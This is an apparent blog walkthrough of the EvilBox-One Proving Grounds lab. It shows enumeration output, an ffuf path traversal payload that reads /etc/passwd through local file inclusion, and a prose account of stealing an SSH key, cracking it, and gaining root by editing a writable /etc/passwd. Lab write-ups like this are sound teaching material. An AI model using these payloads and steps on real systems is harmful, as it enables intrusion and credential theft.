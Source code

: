 ```yaml
---
title: "EvilBox-One Walkthrough"
date: 2023-9-19 
img_path: ../../assets/image
image: evilbox-one.png
categories: [Proving grounds, intermediate,root,]
tags: [ctf, nmap, passwd, enumeration, gobuster, LFI, ssh, Linux, PenTesting]     # TAG names should always be lowercase
---
```


> Welcome back to another writeup of the Proving Grounds Play lab machines and CTF challenge. Today, I am going to present EvilBox-One Walkthrough.**[EvilBox-One](https://portal.offsec.com/labs/play)**  is a Linux Machine from Offsec Proving Grounds rated as intermediate by the Community.. We shall start with `nmap` scan to see the open ports on the machine. We will later  use `gobuster` for directory brute force and later we shall login with `SSH`  which will give us the initial access to the system. Finally we shall do privilege escalation by exploiting incorrect permissions in `/etc/passswd`file to get root privileges.
{: .prompt-tip }

`Ready, set, boot and root!` 

## Scanning and Enumeration

I started with enumerating the host by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.  We have used -sC for default 
scripts, -sV to enumerate all versions, -oA to output all format in a file called initial and finally it’s IP address. Here is the results:


```shell
                                                                                                                                                                                            
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ nmap -sC -sV -oA initial  192.168.201.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 11:25 EAT
Nmap scan report for 192.168.201.212
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds

```
                                                           
  We see `ssh` port 22 open and `http` port 80 open which is running an Apache 2.4.38 web server.   

    Looking at port 80 on the web browser, we see a default Apache2 debian page. 
  ![image](../../assets/image/posts/evilbox1/ev1.png)

  Looking at the robots.txt, I found a message saying . "Hello H4x0r" which might be a potential username.
    ![image](../../assets/image/posts/evilbox1/ev2.png)


  Since `http` port 80 is open, we need to do some directory bruteforcing and look at what directories are accessible. We're going to use `gobuster` which is a Directory/File, DNS and VHost busting tool written in Go. This took a little bit to run, but it did find something interesting. It found a file/folder called /secret.

  ```shell                                
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 12]
/secret               (Status: 200) [Size: 4]
Progress: 32804 / 882244 (3.72%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 32814 / 882244 (3.72%)
===============================================================
Finished
===============================================================
  ```
 However that was nothing more than a blank page. So, I further bruteforced to find other paths inside of it.
 ![image](../../assets/image/posts/evilbox1/ev3.png)

Gobuster really took some time but i finally found a file called /secret/evil.php. 

```shell                                    
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 4]
/evil.php             (Status: 200) [Size: 0]
Progress: 53868 / 882244 (6.11%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 53878 / 882244 (6.11%)
===============================================================
Finished
===============================================================
                                                                   
```
However, I had no idea what to do with this file, since it really displayed nothing, but an empty page when accessed.
![image](../../assets/image/posts/evilbox1/ev4.png)
The script is empty and since I have nowhere to go from there, I fuzzed the GET parameter on it.

```shell                                                                                                                                     
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ ffuf -c -r -u http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd  -w /opt/SecLists/Discovery/Web-Content/common.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 3522ms]
    * FUZZ: command

:: Progress: [4715/4715] :: Job [1/1] :: 196 req/sec :: Duration: [0:00:59] :: Errors: 0 ::


```
Up to now, we found that `command` allows the inclusion of local files of the target.
![image](../../assets/image/posts/evilbox1/ev5.png)

We have to search sensitive files that would give me access to the machine. Since I have a user, I tried checking files from its home directory. Luckily, I found a public key in the /home/mowree/.ssh/authorized_keys file. Then, I checked if I can access the private key and I could.

![image](../../assets/image/posts/evilbox1/ev7.png)
Ok great, so, I am going to copy this and save it as id_rsa on my local machine and I am going to use the famous ssh2john to extract the hash and see if I can crack it.
The private key is encrypted by a passphrase. Now, We have to crack the passphrase. So, I copied the content to a file “id_rsa” on my local machine,
 ![image](../../assets/image/posts/evilbox1/ev8.png)

After coping the id_rsa to my machine i changed its permissions

![image](../../assets/image/posts/evilbox1/ev6.png)

We have to crack the hash of the passphrase. Therefore, we need a tool called ssh2john to generate the hash.
![image](../../assets/image/posts/evilbox1/ev9.png)


Now that I had the hash, I used John the Ripper to crack the hash, that gave us the passphrase to decrypt the id_rsa file.
![image](../../assets/image/posts/evilbox1/ev10.png)





## Initial Access

After successfully cracking the passphrase. Now, we can easily log in.
 ![image](../../assets/image/posts/evilbox1/ev11.png)

We have managed to get the user flag now we need to find a way to  escalate our privileges to root.
 ![image](../../assets/image/posts/evilbox1/ev12.png)


## Privilege Escalation

`Let's get root`
After some research i found that we can write as a low-privileged user to /etc/passwd?
 ![image](../../assets/image/posts/evilbox1/ev13.png)

I used openssl to generate the hash of the word “root”.
 ![image](../../assets/image/posts/evilbox1/ev14.png)


 Then, I copied the hash to the /etc/passwd file of the target. I updated the password of the user root as follows.

 ![image](../../assets/image/posts/evilbox1/ev15.png)


 We will use the password “root”  we created with openssl to get access to the root user.
  ![image](../../assets/image/posts/evilbox1/ev16.png)

We now have to find the final flag to finish the challenge. We need to change the current directory to root and find the flag file, which can be seen in the screenshot given below.
  ![image](../../assets/image/posts/evilbox1/ev17.png)

  ## Conclusion
  
And with that, we have successfully completed the CTF challenge for EvilBox-One machine. I hope you’ve enjoyed this machine and this EvilBox-One walkthrough.

Did you find another way to attack this machine? Do you think I did something wrong or that you would have done it differently?  Let’s help everyone learn.

If you are enjoying these posts, consider buying me a cup of coffee. I spend a lot of time creating these posts that I know will help others, so any support you can provide will help me stay on track.

